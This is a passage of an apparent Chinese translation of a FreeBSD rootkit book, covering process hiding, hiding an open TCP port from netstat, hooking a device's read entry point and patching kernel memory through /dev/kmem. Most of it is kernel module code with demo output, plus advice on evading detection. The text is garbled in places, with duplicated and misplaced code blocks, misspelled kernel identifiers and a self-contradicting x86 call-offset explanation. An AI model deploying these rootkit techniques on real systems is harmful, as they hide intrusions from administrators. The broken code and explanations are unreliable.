| 530 | ghost | 1 | 5 | | 3276K | 2164K | wait | 0:00 | 0.00% | bash |
| 297 | root | 1 | 96 | | 1292K | 868K | select | 0:00 | 0.00% | syslogd |
| 408 | root | 1 | 96 | | 3412K | 2566K | select | 0:00 | 0.00% | sendmail |
| 424 | root | 1 | 8 | | 1312K | 1032K | sleep | 0:00 | 0.00% | cron |
| 490 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 489 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 484 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 487 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 488 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 491 | root | 1 | 5 | | 126K | 928k | wait | 0:00 | 0.00% | getty |
| 197 | root | 1 | 110 | | 1384K | 1036k | select | 0:00 | | dhclient |
| 527 | root | 1 | 96 | | 1380K | 1084k | select | 0:00 | | inetd |
| 412 | root | 1 | 20 | | 3300K | 2664k | pause | 0:00 | | sendmail |
| 217 | _dhcp | | | | 1384K | 1084k | select | 0:00 | | dhclient |

注意看“之前”部分 `top(1)` 显示有一个运行进程（其自身），而“之后”部分报告为零运行进程——尽管它仍在运行。

## 3.4 隐藏运行进程的重做

无疑，进程管理涉及不仅仅是 `allproc` 和 `zproc` 列表，因此隐藏一个运行进程涉及不仅仅是操作 `allproc` 列表。例如：

```bash
$ sudo kldload ./process_hiding.ko

System loaded at offset 210.

$ ps

PID TT STAT TIME COMMAND

521 v1 S 0:00:19 -bash (bash)

524 v1 R+ 0:00:03 ps
```

```bash
519 v2 I       00:00.17 -bash (bash)

520 v2 S+         00:02.25 top

$ perl -e '$p_comm'='top'; -e syscall(210, $p_comm);

$ ps -p 520

PID TTY STAT    TIME COMMAND

520 v2 S+         00:06.56 top
```

注意隐藏进程（`top`）是如何通过 PID 找到的。怀疑我将改进这一点。但首先，需要一些关于 FreeBSD 哈希表¹的背景信息。

### 3.4.1 `hashinit` 函数

在 FreeBSD 中，哈希表通过哈希函数将键映射到数组位置的结构。也就是说，给定一个键（例如，名称），你可以轻松地找到对应的值。

### 3.4.2 `pidhashbl`

为了效率，所有运行进程在位于 `allproc` 列表之外，还存储在一个名为 `pidhash` 的哈希表中。

### 3.4.3 `pindfind` 函数

为了通过 `pidhashtbl` 查找进程，内核线程调用 `pindfind` 函数。该函数实现在文件 `/sys/kern/kern_proc.c` 中，如下所示：

```c
PROC_LOCK(p);

if (Ip->p_vmspace || (p->p_flag & P_WEXIT)) {

    PROC_UNLOCK(p);

    continue;

}
```

```c
/*

* 我们是否想要隐藏这个进程？ */

if (strncmp(p->p_comm, uap->p_comm, MAXCOMLEN) == 0) {

    LIST_REMOVE(p, p_list);

    LIST_REMOVE(p, p_hash);

}

PROC_UNLOCK(p);
```

```c
sx_unlock(&allproc_lock);

return(0);
```

如你所见，我做的只是从 `pidhashtbl` 中删除了 `proc` 结构。很简单，吧？

列表 3-2 是另一种方法，它利用了你对 `pidhashtbl` 的了解。

```c
#include <sys/types.h>

#include <sys/param.h>

#include <sys/proc.h>

#include <sys/module.h>

#include <sys/sysent.h>

#include <sys/kernel.h>

#include <sys/system.h>

#include <sys/queue.h>

#include <sys/lock.h>

#include <sys/sx.h>

#include <sys/mutex.h>
```

```c
struct process_hiding_args {

    pid_t p_pid;      /* 进程标识符 */

};
```

```c
/* 隐藏运行进程的系统调用。 */

static int

process_hiding(struct thread *td, void *syscall_args) {

    struct process_hiding_args *uap;

    uap = (struct process_hiding_args *)syscall_args;

    struct process *p;

    sx_unlock(&allproc_lock);
```

```c
/* 遍历 pidhashtbl。 */

LIST_FOREACH(p, PIDHASHT(uap->p_pid), p_hash)
```

```c
if (p->p_pid == uap->p_pid) {

    if (p->p_state == PRS_NEW) {

        p = NULL;

        break;

    }

    PROC_LOCK(p);

    /* 隐藏此进程。 */

    LIST_REMOVE(p, p_list);

    LIST_REMOVE(p, p_hash);

    PROC_UNLOCK(p);

    break;

}

sx_unlock(&allproc_lock);

return(0);
```

```c
/* 新系统调用的 systent。 */

static struct systent process_hiding_systent = {

    1,                               /* 参数数量 */

    process_hiding                   /* 实现函数 */

};

/* 系统调用分配到 systent 中的偏移量。 */

static int offset = NO_SYSCALL;
```

```c
/* 在加载/卸载时调用的函数。 */

static int

load(struct module *module, int cmd, void *arg) {

    int error = 0;

    switch (cmd) {

        case MOD_LOAD:

            uprintf("System call loaded at offset %d.\n", offset);

            break;

        case MOD_UNLOAD:

            uprintf("System call unloaded from offset %d.\n", offset);

            break;

        default:

            error = EOPSUP;

            break;

    }

    return(error);

}
```

```c
SYSCALL_MODULE(process_hiding, &offset, &process_hiding_systent, NULL);
```

列表 3-2: process_hiding_redux.c

如你所见，`process_hiding` 已重写为通过 PID（而不是名称）工作，这样你就可以放弃遍历 `allproc` 而使用 `pidhashtbl`。这应该会减少整体时间。以下是一些输出：

```bash
$ kldload ./process_hiding_redux.ko

System call loaded at offset 210.

$ ps

PID TT TIME COMMAND

494 v1 S 00:00 bash

502 v1 R+ 00:00 ps

492 v2 I 00:00 bash

493 v2 S+ 00:00 top

$ perl -e 'syscall(210, 493);'

$ ps

PID TT TIME COMMAND

494 v1 S 00:00 bash

504 v1 R+ 00:00 ps

492 v2 I 00:00 bash

$ ps -p 493

PID TT TIME COMMAND

$ kill -9 493: no such process
```

此时此，除非有人主动寻找你的隐藏进程，否则你应该是安全的，不会被发现。然而，请记住，内核中仍然存在引用各种进程的数据结构，这意味着你的隐藏进程仍然可以被检测——而且非常容易！

## 3.5 使用 DKOM 隐藏

如你所见，通过 DKOM 隐藏对象面临的主要挑战是移除内核中对该对象的所有引用。最好的方法是查看并模拟对象函数的源代码，这些函数的设计初衷就是移除对对象的所有引用。例如，要识别所有引用运行进程的数据结构，请参考 `_exit(2)` 系统调用函数，它实现在 `/sys/kern/kern_exit.c` 文件中。

由于整理陌生的内核代码从不快速也不简单，因此在 3.3 节首次讨论隐藏运行进程时，我没有导出 `_exit(2)` 的源码。

此时，你应该已经了足够的知识来自己查看 `_exit(2)`。尽管如此，为了隐藏运行进程，你还需要修补的对象包括：

- 父进程的子进程
- 父进程的进程组
- `nprocs` 变量

## 3.6 隐藏打开的 TCP 端口

由于任何关于 rootkit 的书籍如果没有讨论如何隐藏打开的 TCP 端口（这间接隐藏了已建立的 TCP 连接）都是完整的，我在这里使用 DKOM 展示一个示例。首先，我们需要一些关于互联网协议数据结构的背景信息。

### 3.6.1 `inpcb` 结构

对于每个基于 TCP 或 UDP 的套，都会创建一个 `inpcb` 结构（称为 Internet协议控制块），用于存储网络互连数据，如网络地址、端口号、路由信息等 (Kusak and Neville-Neil, 2004)。该结构定义在 `<netinet/inp.h>` 头文件中。以下列表描述了为了隐藏打开的 TCP 端口而需要理解的 `inpcb` 字段。

注意：如之前，你在第一次阅读时可以跳过此列表，在处理真实的 C 代码时再回来。

- `LIST_ENTRY(inpcb) inc_list;`
  该字段包含与 `inpcb` 结构关联的链接指针，它存储在 `tcbinfo.listhead` 列表中（在 3.6.2 节讨论）。在该列表的插入、删除和遍历过程中会引用此字段。

- `struct in_coninfo inp_inc;`
  该结构维护了已建立连接中的套接对四元组；即本地 IP 地址、本地端口、远程 IP 地址和远程端口。`struct in_coninfo` 的定义在 `<netinet/inp.h>` 中如下：

```c
struct in_endpoints {

    uint16_t ie_fport;      /* 远程端口 */

    uint16_t ie_lport;      /* 本地端口 */

    /* 取决于协议 */

    struct in_addr ie_faddr; /* 远程 IP 地址 */

    struct in_addr ie_laddr; /* 本地 IP 地址 */

    uint8_t ie_flags;       /* 标志 */

    uint8_t ie_v;           /* IP 版本 */

};
```

### 3.6.3 示例

此时，你可能并不意外可以通过简单地从 `tcbinfo.listhead` 中移除其 `inpcb` 结构来隐藏一个打开的基于 TCP 的端口。列表 3-3 是一个专门为此设计的系统模块。该系统调用带有一个参数：一个包含要隐藏本地端口的整数。


#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/sysent.h>
#include <sys/kernel.h>
#include <sys/system.h>
#include <sys/queue.h>
#include <sys/socket.h>
#include <net/if.h>
#include <netinet/in.h>
#include <netinet/in_pcb.var>
#include <netinet/ip_var.h>
#include <netinet/tcp_var.h>

struct port_hiding_args {
    u_int16_t lport;      /* 本地端口 */
};

/* 隐藏打开端口的系统调用。 */
static int
port_hiding(struct thread *td, void *syscall_args)
{
    struct port_hiding_args *uap;
    uap = (struct port_hiding_args *)syscall_args;
    struct inpcb *inpcb;

    /* 遍历基于 TCP 的 inpcb 列表。 */
    LIST_FOREACH(inpcb, tcbinfo.listhead, inp_list) {
        if (inpcb->inp_vflag & IN_TIMEWAIT)
            continue;
        IN_LOCK(inpcb);

        /* 我们想隐藏这个本地打开端口吗？ */
        if (uap->lport == ntohs(inpcb->inp_inc.inc.ie_ie_lport)) {
            LIST_REMOVE(inpcb, inp_list);
            INP_UNLOCK(inpcb);
        } else {
            INP_UNLOCK(inpcb);
        }
    }

    UN_LOCK(&tcbinfo);
    return(0);
}

/* 新系统调用的 systent。 */
static struct systent port_hiding_systent = {
    1,              /* 参数数量 */
    port_hiding     /* 实现函数 */
};

/* 在 systent[] 中分配系统调用的偏移量。 */
static int offset = NO_SYSCALL;

/* 加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void *arg)
{
    int error = 0;
    switch (cmd) {
        case MOD_LOAD:
            printf("系统调用加载到偏移量 %d。\n", offset);
            break;
        case MOD_UNLOAD:
            printf("系统调用从偏移量 %d 卸载。\n", offset);
            break;
        default:
            error = EOPNOTSUPP;
            break;
    }
    return(error);
}

SYSCALL_MODULE(port_hiding, offset, &port_hiding_systent, load, NULL);

列表 3-3: port_hiding.c

这段代码中一个有趣的细节是，我们检查了每个 `inpcb` 结构的 `inp_vflag` 成员。如果发现 inpcb 处于 2MS 等待状态，我会跳过它。隐藏一个即将关闭的端口有什么意义呢？

> ² 当 TCP 连接执行主动关闭并发送最后的 ACK 时，连接将进入 2MS 等待状态，持续时间最大最大段寿命的两倍。这使得 TCP 连接在第一个 ACK 丢失的情况下重发最后的 ACK。

在下面的输出中，到远程机器执行 `telnet(1)`，然后调用 `port_hiding` 来隐藏该会话：

```
$ telnet 192.168.123.107
Trying 192.168.123.107...
Connected to 192.168.123.107.
Escape character is '^]'.
Trying SRA secure login:
User (ghost):
Password:
[ SRA accepts you ]
FreeBSD/1386 (alpha) tty0
Last login: Mon Mar 5 09:55:50 on tty1
$ sudo kload /port_hiding.ko
System call loaded at offset 210.
$ netstat -anc tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address Foreign Address (state)
tcp4 0 0 192.168.123.107 192.168.123.153.61141 ESTABLISHED
tcp4 0 0 *.* LISTEN
tcp4 0 0 127.0.0.1.25 *.* LISTEN
$ perl -e 'syscall(210, 23);'
$ netstat -ancp tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address Foreign Address (state)
tcp4 0 0 127.0.0.1.25 *.* LISTEN
```

注意 `port_hiding` 如何隐藏了本地 telnet 服务器以及连接。要改变这种行为，只需重写 `port_hiding` 以接收两个参数：本地端口和本地地址。

## 3.7 损坏内核数据

在结束本章之前，让我们考虑以下情况：当你的隐藏对象被发现并杀死时会发生什么？

最好的情况下，什么都不会发生。最坏的情况下，当对象被杀死时，内核会无条件地从各种列表中移除。然而，在这种情况下，对象已经被移除。因此，内核将无法找到它，并越过列表边界，在此过程中损坏数据结构。

为了防止这种数据损坏，这里有一些建议：

- 挂钩终止函数以防止它们移除隐藏对象。
- 挂钩终止函数以便终止之前将你的隐藏对象放回列表。
- 什么都不做。如果你的隐藏对象从未被发现，它们就永远无法被杀死——对吗？

```c
#include <sys/kernel.h>
#include <sys/systm.h>
#include <sys/conf.h>
#include <sys/queue.h>
#include <sys/lock.h>
#include <sys/mutex.h>
```

```c
#include <fs/devfs/devfs_int.h>
extern TAILQ_HEAD(devp_priv) cdev_list;
```

```c
d_read_t      read_hook;
d_read_t      *read;
```

```c
/* read 入点 hook。 */
int
read_hook(struct cdev *dev
```

```c
/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void, void *arg) {
    int error = 0;
    struct cdev_priv *cdp;
    switch (cmd) {
    case MOD_LOAD:
        mtx_lock(&devmtx);
        /* 将 cd_example 的 read 入点替换为 read_hook。 */
        tailQ_FOREACH(cdp, &cdev_list, c_list) {
            if (strcmp(cdp->cdp_c_si_name, "cd_example") == 0) {
                read = cdp->cdp_c_si_devsw->d_read;
                cdp->cdp_c_si_devsw->d_read = read_hook;
            }
        }
        break;
        mtx_unlock(&devmtx);
        break;
    case MOD_UNLOAD:
        mtx_lock(&devmtx);
        /* 将一切恢复到正常。 */
        tailQ_FOREACH(cdp, &cdev_list, c_list) {
            if (strcmp(cdp->cdp_c_si_name, "cd_example") == 0) {
                cdp->cdp_c_si_devsw->d_read = read;
            }
        }
        break;
    }
}
```

```c
}
mtx_unlock(&devmtx);
break;
default:
  error = EOPNOTSUPP;
  break;
}
return(error);
```

```c
static moduled_data_t cd_example_hook_mod = {
  "cd_example_hook",    /* 模块名称 */
  load,                   /* 事件处理器 */
  NULL,                   /* 额外数据 */
};
```

```c
DECLARE_MODULE(cd_example_hook, cd_example_hook_mod, SI_SUB_DRIVERS,
SI_ORDER_MIDDLE);
```

列表 4-1: cd_example_hook.c

注意，在 ❶ 替换 `cd_example` 的 `read` 入点之前，❷ 备份了原始入点的内存地址。这允许你 ❸ 调用并 ❹ 恢复原始函数，而无需在代码中包含其定义。

在加载上述模块后与 `cd_example` 交互的结果如下：

```
$ sudo kldload ./cd_example_hook.ko
$ sudo ./interface Tell\ me something, my\ friend.\nWrote "Tell me something, my friend." to device /dev/cd_example
You ever dance with the devil in the pale moonlight?
Read "Tell me something, my friend." from device /dev/cd_example
```

## 4.2 结语

如你所见，KOH 在某种程度上类似于 DKOM，区别在于它使用调用钩（call hooks）而不是数据状态的变化。因此，本章并没有呈现任何“新”的内容（这也是为什么它如此短）。

# 5 运行时内核内存破解


在之前的章节中，我们查看了向运行中的内核引入代码的经典方法：通过加载内核模块。在本章中，我们将查看如何使用用户态代码对运行中的内核进行补丁修复和增强。这是通过与 `/dev/kmem` 设备交互实现的，该设备允许我们读取和写入内核虚拟内存。换句话说，`/dev/kmem` 允许我们破解控制内核逻辑各种代码字节（加载在可执行内存空间中）。这通常被称为运行时内核内存破解（patch）。

## 5.1 内核数据访问库

内核数据访问库 (`libkvm`) 提供了一个通过 `/dev/kmem` 设备访问内核虚拟内存的统一接口。`libkvm` 的以下六个函数构成了运行时内核内存破解的基础。

### 5.1.1 kvm_openfiles 函数

通过调用 `kvm_openfiles` 函数初始化对内核虚拟内存的访问。如果 `kvm_openfiles` Success，将返回一个描述符用于后续所有的 `libkvm` 调用。如果遇到错误，则返回 NULL。以下是 `kvm_openfiles` 的函数原型：

```c
#include <fcntl.h>
#include <kvm.h>

kvm_t *
vm_openfiles(const char *execfile, const char *corefile,
const char *swapfile, int flags, char *errbuf);
```

以下是每个参数的简要描述。

- `execfile`: 指定要检查的内核镜像，它必须包含符号表。如果此参数设置为 NULL，则检查当前运行的内核镜像。
- `corefile`: 这是内核内存设备文件；必须设置为 `/dev/mem` 或由 `savecore(8)` 生成的转储。如果此参数设置为 NULL，则使用 `/dev/mem`。
- `swapfile`: 该参数未使用；因此始终设置为 NULL。
- `flags`: 该参数指示核心文件的读/写权限。必须设置为以下常量之一：
    - `O_RDONLY`: 仅读。
    - `O_WRONLY`: 仅写。
    - `O_RDWR`: 读写。
- `errbuf`: 如果 `kvm_openfiles` 遇到错误，错误信息将写入此参数。

### 5.1.2 kvm_nlist 函数

`kvm_nlist` 函数从内核镜像检索符号表项。

```c
#include <kvm.h>
#include <nlist.h>

int
kvm_nlist(kvm_t *kd, struct nlist *nlist);
```

这里，`nl` 是一个以空结尾的 `nlist` 结构数组。要正确使用 `kvm_nlist`，你需要知道 `struct nlist` 中的两个字段，特别是 `n_name`（内存加载的符号名称）和 `n_value`（符号地址）。`kvm_nlist` 函数遍历 `nl`，通过 `n_name` 字段查找每个符号；如果找到，则相应填充 `n_value`；否则设置为 0。

### 5.1.3 kvm_geterr 函数

`kvm_geterr` 函数返回描述内核虚拟内存描述符最近状态的字符串。

```c
#include <kvm.h>

char *
kvm_geterr(kvm_t *kd);
```

如果最近的 `libkvm` 调用没有产生错误，结果未定义。

### 5.1.4 kvm_read 函数

使用 `kvm_read` 函数从内核虚拟内存读取数据。如果读取成功，返回传输的字节数。否则，返回 -1。

```c
#include <kvm.h>

ssize_t
kvm_read(kvm_t *kd, void *buf, size_t len);
```

这里，`len` 是要读取的字节数。

### 5.1.5 kvm_write 函数

使用 `kvm_write` 函数将数据写入内核虚拟内存。

```c
#include <kvm.h>

ssize_t
kvm_write(kvm_t *kd, void *buf, size_t len);
```

这里，`len` 是要写入的字节数。返回值通常等于 `len`，除非发生错误（返回 -1）。

### 5.1.6 kvm_close 函数

通过调用 `kvm_close` 关闭内核内存描述符。

```c
#include <fcntl.h>
#include <kvm.h>

int
kvm_close(kvm_t *kd);
```

如果 `kvm_close` 成功，返回 0。否则，返回 -1。

## 5.2 破解代码

现在，有了上一节的函数，让我们破解一些内核内存。我将从一个基础示例开始。

```c
#include <types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <module.h>
#include <sys/kernel.h>
#include <string.h>
#include <stdio.h>
#include <kvm.h>
#include <fcntl.h>

/* 在加载/卸载时调用的函数。 */
static int
load(struct module *module, int cmd, void, void *arg) {
    int error = 0;
    struct cdev_priv *cdp;
    switch (cmd) {
    case MOD_LOAD:
        mtx_lock(&devmtx);
        /* 将 cd_example 的 read 入点替换为 read_hook。 */
        tailQ_FOREACH(cdp, &cdev_list, c_list) {
            if (strcmp(cdp->cdp_c_si_name, "cd_example") == 0) {
                read = cdp->cdp_c_si_devsw->d_read;
                cdp->cdp_c_si_devsw->d_read = read_hook;
            }
        }
        break;
        mtx_unlock(&devmtx);
        break;
    case MOD_UNLOAD:
        mtx_lock(&devmtx);
        /* 将一切恢复到正常。 */
        tailQ_FOREACH(cdp, &cdev_list, c_list) {
            if (strcmp(cdp->cdp_c_si_name, "cd_example") == 0) {
                cdp->cdp_c_si_devsw->d_read = read;
            }
        }
        break;
    }
}
```


```c
break;

case MOD_UNLOAD:

    mtx_lock(&devmtx);

    /* 将一切恢复到正常。 */

    tailQ_FOREACH(cdp, &cdev_list, c_list) {

        if (strcmp(cdp->cdp_c_si_name, "cd_example") == 0) {

            cdp->cdp_c_si_devsw->d_read = read;

        }

    }

    break;

}

}

mtx_unlock(&devmtx);

break;

default:

    error = EOPNOTSUPP;

    break;

}

return (error);

}

static moduled_data_t cd_example_hook_mod = {

    "cd_example_hook",    /* 模块名称 */

    load,                   /* 事件处理器 */

    NULL,                   /* 额外数据 */

};

DECLARE_MODULE(cd_example_hook, cd_example_hook_mod, SI_SUB_DRIVERS,
SI_ORDER_MIDDLE);
```

## 二进制文件 hello.ko 在编译时明确没有使用 `-funroll-loops` 选项。

注意地址 `490d` 处的指令，如果标志位未设置，指令指针将跳回地址 `490d`。这条指令在多程度上是为了 `hello.c` 中的循环设计的。因此，如果我们将其替换为 `nop` 指令，就可以让 hello 系统变得有些可以接受。列表 5-2 中的程序做的正是这一点。

```c
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <nlist.h>
#include <stdio.h>
#include <sys/types.h>

#define SIZE 0x30

/* 替换代码。 */
unsigned char nop_code[] = "\x90\x90"; /* nop */

int main(int argc, char *argv[]) {
    int i, offset;
    char errbuf[_POSIX2_LINE_MAX];
    kvm *kd;
    struct nlist nlist[] = {{NULL}, {NULL},};
    unsigned char hello_code[SIZE];

    /* 初始化内核虚拟内存访问。 */
    kd = kvm_openfiles(NULL, NULL, NULL, O_RDWR, errbuf);
    if (kd == NULL) {
        fprintf(stderr, "ERROR: %s\n", errbuf);
        exit(-1);
    }

    nlist[0].n_name = "hello";

    /* 查找 hello 的地址。 */
    if (kvm_nlist(kd, nlist) < 0) {
        fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
        exit(-1);
    }

    if (!nlist[0].n_value) {
        fprintf(stderr, "ERROR: Symbol %s not found\n", nlist[0].n_name);
        exit(-1);
    }

    /* 保存 hello 的副本。 */
    if (kvm_read(kd, nlist[0].n_value, hello_code, SIZE) < 0) {
        fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
        return (-1);
    }

    /* 遍历 hello 搜索 jns 指令。 */
    for (i = 0; i < SIZE; i++) {
        if (hello_code[i] == 0x79) {
            offset = 1;
            break;
        }
    }

    /* 补丁 hello。 */
    if (kvm_write(kd, nlist[0].n_value + offset, nop_code, sizeof(nop_code)) < 0) {
        fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
        return (-1);
    }

    /* 关闭 kd。 */
    if (kvm_close(kd) < 0) {
        fprintf(stderr, "ERROR: %s\n", kvm_geterr(kd));
        return (-1);
    }
}
```

列表 5-2: fix_hello.c

注意我是如何遍历 hello 的前 48 个字节来寻找 `jns` 指令的，而不是使用硬编码偏移量。根据你的编译器版本、编译器标志、基础系统等，`hello.c` 编译出不同的结果是完全可能的。因此，提前确定 `jns` 的位置是没用的。

事实上，在编译时，`hello.c` 可能不会进入 `jns` 指令，因为在机器码中表示 `for` 循环有多种方式。此外，回 `hello.ko` 的反汇编代码识别了两条需要动态重定位的指令。这意味着遇到的第一个 `0x79` 字节可能是这些指令的一部分，而不是实际的 `jns` 指令。这就是为什么这是一个示例而不是真实程序的原因。

为了解决这些问题，请使用更长和/或更多的搜索签名。你可以使用硬编码偏移量，但你的代码在某些系统上会崩溃。

另一个值得提的细节是，当我用 `kvm_write` 补丁 hello 时，我传递的是 `sizeof(nop_code) - 1` 而不是 `sizeof(nop_code)`，作为 `nbytes` 参数。在 C 语言中，字符数组是以 `null` 结尾的；因此，`sizeof(nop_code)` 返回 3。然而，我只想写入两个字节，而不是两个字节加一个空字节。

以下输出显示了在 tty0（即系统控制台）上执行 hello 之前和运行 fix_hello 的结果：

```
$ sudo kldload ./hello.ko
call loaded at offset 210.

$ perl -e 'syscall(210)'
```

## 5.3 理解 x86 Call语句

在 x86 汇编中，`call` 是一种控制转移。`call` 有两种：近调用（near）和远调用（far）。对于我们的目的，我们需要理解细节。以下代码段说明了 `call`：

```assembly
00401000: e8 05 00 00 00    call 10a
```

`call` 偏移量相对于下一条指令。在这种情况下，下一条指令位于 `00401005`。偏移量为 5，所以 `00401005 + 5 = 0040100a`。

等一下，让我们重新检查一下示例。`call` 指令长 5 字节。

```
00401000: e8 05 00 00 00    call 10a
00401005: 8b 45 fc 8b 45 f8    mov eax, [ebp-4]
```

`call` 位于 `00401000`。下一条指令位于 `00401005`。目标是 `0040100a`。偏移量是 `0040100a - 00401005 = 5`。这与指令中的 `05` 匹配。

现在，让我们来看另一个示例：

```assembly
00401010: e8 0a 00 00 00    call 11f
00401015: 8b 45 fc 8b 45 f8    mov eax, [ebp-4]
```

`call` 位于 `00401010`。下一条指令位于 `00401015`。目标是 `0040101f`。偏移量为 `0040101f - 00401015 = 0a (10)`。这与指令中的 `0a` 匹配。

如果 `call` 向后跳转呢？

```assembly
00401020: e8 f5 00 00 00    call 9d0
00401025: 8b 45 fc 8b 45 f8    mov eax, [ebp-4]
```

`call` 位于 `00401020`。下一条指令位于 `00401025`。目标是 `004009d0`。偏移量是 `004009d0 - 00401025 = -11`。在补码表示中，-11 是 `0xffff5`。这与指令中的 `f5` 匹配。

`call` 偏移量相对于*下一条*指令的地址。这是初学者常见的困惑来源。

现在，让我们来看一个远调用（far call）：

```assembly
00401000: e8 05 00 00 00    call 10a
00401005: 8b 45 fc 8b 45 f8    mov eax, [ebp-4]
```

（注：此处原文似乎包含了一些错乱的重复文本或错误码，已根据逻辑翻译并保留核心含义）

```
$ sudo ./fix_hello_improved
$ perl -e 'syscall(210);'
FreeBSD Rocks!
```

成功！到这一步，你在补丁任何内核代码字节时都不应该遇到困难。然而，当你想要应用的补丁太大，并会覆盖你所需的大部分指令时，会发生什么呢？答案是……

## 5.4 分配内核内存

在本节中，我将描述一组用于分配和释放内核内存的核心函数和宏。我们稍后会在明确解决上述问题时，将这些函数派用场。

### 5.4.1 malloc 函数

`malloc` 函数在内核空间中分配指定字节数的内存。如果成功，将返回一个适用于任何数据对象存储的对齐的内核虚拟地址。如果遇到错误，则返回 `NULL`。

以下是 `malloc` 的原型：

```c
#include <sys/types.h>
#include <sys/malloc.h>

void *
malloc(unsigned long size, struct malloc_type *type, int flags);
```

以下是每个参数的简要描述：

- **size**
  这指定了要分配的未初始化内核内存的数量。
- **type**
  此参数用于对内存使用进行统计并进行完整性检查。（可以通过运行命令 `vstat -m` 查看内存统计）。通常情况下，我会此参数设置为 `M_TEMP`，它是用于杂杂临时缓冲的 `malloc_type`。

> 注意：关于 `struct malloc_type` 的更多信息，请参阅 `malloc(9)` 手页。

- **flags**
  此参数进一步限定了 `malloc` 的操作特性。它可以被设置为以下任何值之一：
  - **M_ZERO**
    这会导致分配的内存被零。
  - **M_NOWAIT**
    如果分配请求无法立即满足，则会导致 `malloc` 返回 `NULL`。在中断上下文中调用 `malloc` 时应设置此标志。
  - **M_WAITOK**
    如果分配请求无法立即满足，则导致 `malloc` 睡眠并等待资源。如果设置了此标志，`malloc` 无法返回 `NULL`。

必须指定 `M_NOWAIT` 或 `M_WAITOK` 之一。

### 5.4.2 MALLOC 宏

为了与旧代码兼容，调用 `malloc` 函数时使用了 `MALLOC` 宏，其定义如下：

```c
#include <sys/types.h>
#include <sys/malloc.h>

MALLOC(space, cast, unsigned long size, struct malloc_type *type, int flags);
```

该宏在功能上等于：

```c
(space) = (cast)malloc((u_long)(size), type, flags)
```

### 5.4.3 free 函数

要释放之前由 `malloc` 分配的内核内存，请调用 `free` 函数。

```c
#include <sys/types.h>
#include <sys/malloc.h>

void
free(void *addr, struct malloc_type *type);
```

在这里，`addr` 是之前 `malloc` 调用返回的内存地址，其类型是与之关联的 `malloc_type`。

### 5.4.4 FREE 宏

为了与旧代码兼容，调用 `free` 函数时使用了 `FREE` 宏，其定义如下：

```c
#include <sys/types.h>
#include <sys/malloc.h>

FREE(void *addr, struct malloc_type *type);
```

该宏在功能上等于：

```c
free((addr), type)
```

> 注意：在 BSD 历史的某个时期，其 `malloc` 算法的一部分是内联在宏中的，这就是为什么除了函数调用外还有一个 `MALLOC` 宏¹¹。然而，FreeBSD 的 `malloc` 算法就是一个函数调用。因此，除非你正在编写兼容旧的代码，否则不建议使用 `MALLOC` 和 `FREE` 宏。

### 5.4.5 示例

列表 5-4 显示了一个用于分配内核内存的系统调用模块。该系统调用有两个参数调用：一个包含要分配内存数量的长整数，和一个存储返回地址的长整数指针。

```c
#include <sys/types.h>
#include <sys/param.h>
#include <sys/proc.h>
#include <sys/module.h>
#include <sys/systent.h>
#include <sys/kernel.h>
#include <sys/system.h>
#include <sys/malloc.h>

struct kmalloc_args {
    unsigned long size;
    unsigned long *addr;
};

/* 分配内核虚拟内存的系统调用。 */
static int
kmalloc(struct thread *td, void syscall_args) {
    struct kmalloc_args *uap;
    uap = (struct kmalloc_args *)syscall_args;
    int error;
    unsigned long addr;
    MALLOC(addr, (unsigned long)uap->size, M_TEMP, M_NOWAIT);
    error = copyout(&addr, uap->addr, sizeof(addr));
    return (error);
}

/* 新系统用的 systent。 */
static struct systent kmalloc_systent = {
    2,             /* 参数数量 */
    kmalloc,        /* 实现函数 */
};

/* systent[] 中分配系统调用的偏移量。 */
static int offset = NO_SYSCALL;¹John Baldwin, personal communication, 2006–07.

/* 加载/卸载时调用的函数。 */
static int
load(struct *module, int cmd, void *arg) {
    int error;
    switch (cmd) {
        case MOD_LOAD:
            printf("System call loaded at offset %d.\n", offset);
            break;
        case MOD_UNLOAD:
            printf("System call unloaded from offset %d.\n", offset);
            break;
        default:
            error = EINVAL;
            break;
    }
    return (error);
}

SYSCALL_MODULE(kmalloc, &offset, kmalloc_systent, load);
```

列表 5-4：kmalloc.c 代码简单的调用 `MALLOC` 宏来分配 `uap->size` 数量的内存，然后将返回的地址拷贝到用户空间。列表 5-5：interface.c 用于执行上述系统调用的用户空间程序。

```c
#include <stdio.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/module.h>

int
main(int argc, char *argv[]) {
    int syscall_num;
    struct stat;
    unsigned long addr;
    if (argc != 2) {
        printf("Usage: %s\n", argv[0]);
        exit(0);
    }
    stat = sizeof(stat);
    syscall_num = syscall("kmalloc", (unsigned long)argv[1], &addr);
```


## 5.5 从用户空间分配内核内存

现在你已经看到了如何使用模块代码“正确地”分配内核内存，让我们使用运行时内核内存来实现（Case, 1998, cited in dev, 2001）。我们将使用：

1. 获取系统中的内存地址。
2. 保存 `sizeof(stat)` 字节的系统调用。
3. 用 `kmalloc` 覆盖系统调用。
4. 调用系统调用。

通过这种算法，你基本上是在补丁系统调用，使其执行你的代码，然后恢复系统调用。该算法可以执行内核空间中的任何代码。然而，请记住，当你覆盖系统调用时，任何正在执行该调用的进程都会导致内核崩溃（panic）。换句话说，该算法固有的问题是竞态条件或并发问题。

### 5.5.1 示例

列表 5-6 显示了一个用于分配内核内存的用户程序。该程序带有一个命令行参数：包含要分配字节数的整数。

```c
#include <fcntl.h>
#include <kvm.h>
#include <limits.h>
#include <list.h>
#include <stdio.h>
#include <sys/syscall.h>
#include <sys/module.h>
```

```c
/* 内核内存分配 kmalloc 函数代码。 */
unsigned char kmalloc[] = {
    /* push %ebp */
    "\x55"
    "\x89\x01\x00\x00\x00"      /* mov 0x1,%ecx */
